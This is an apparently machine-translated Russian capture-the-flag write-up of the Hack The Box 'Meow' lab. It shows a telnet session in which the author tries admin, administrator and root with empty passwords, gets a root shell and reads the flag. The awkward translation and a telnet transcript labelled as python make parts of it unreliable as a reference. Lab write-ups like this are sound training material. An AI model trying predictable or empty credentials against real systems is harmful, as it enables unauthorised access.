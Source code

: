 Давайте сначала проверим эти имена пользователей без пароля!

```python
Meow login: admin
Password: 

Login incorrect
Meow login: administrator
Password: 

Login incorrect
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 26 Feb 2022 05:05:33 AM UTC
```

Хорошо бы я посмотрел на это! Мы можем войти в систему как пользователь root без пароля!

Мы можем подтвердить, что мы действительно являемся пользователем root:

```
root@Meow:~# whoami
root
```

И когда мы проверяем текущий каталог, `flag.txt`это первое, что мы видим:

```
root@Meow:~# ls                                                                             
flag.txt  snap
```

Затем мы можем запустить `cat flag.txt` команда раскрыть флаг! Были сделаны!

## Краткое содержание

Я знаю, что это очень короткая и простая машина на Hack The Box, но это все еще обучение и практика. Это отлично подходит для того, чтобы привыкнуть к использованию **Nmap** и использованию **telnet** . Проблема с этим входом в telnet связана с неправильной настройкой учетной записи. Где важный пользователь, `root`в этом случае не имеет настройки пароля, что позволяет злоумышленникам очень легко проникнуть в систему. Эта машина не углубляется в то, как использовать службы telnet, но, по крайней мере, мы можем попробовать войти в систему и понять, что мы можем использовать предсказуемые учетные данные для входа, чтобы взломать наш путь. В следующий раз, если мы столкнемся с в другой ситуации, похожей на эту, мы можем попробовать сделать это, и если это не сработает, мы можем исключить это и попробовать другие методы.

---

# Vaacine
